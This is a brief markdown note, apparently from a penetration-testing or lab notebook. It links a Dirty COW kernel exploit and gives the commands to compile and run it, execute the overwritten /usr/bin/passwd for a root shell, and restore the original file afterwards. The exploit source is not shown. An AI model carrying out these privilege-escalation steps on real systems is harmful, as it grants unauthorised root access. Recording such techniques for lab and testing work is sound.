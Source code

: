 ```yaml
---
category: Uncategorized
tags: []
---
```

[https://gist.github.com/KrE80r/42f8629577db95782d5e4f609f437a54](https://gist.github.com/KrE80r/42f8629577db95782d5e4f609f437a54)

Download and compile it **using the instructions in the file** <u>**As in, Uncommenting the correct payload!**</u>:

```bash - target
gcc -pthread c0w.c -o c0w
```

Run the exploit:

```bash - target
./c0w
```

Once the exploit is complete, simply execute the 
/usr/bin/passwd binary to get a root shell:

```bash - target
/usr/bin/passwd
```

Restore the original file ==when complete:==

```bash - target
cp /tmp/bak /usr/bin/passwd
```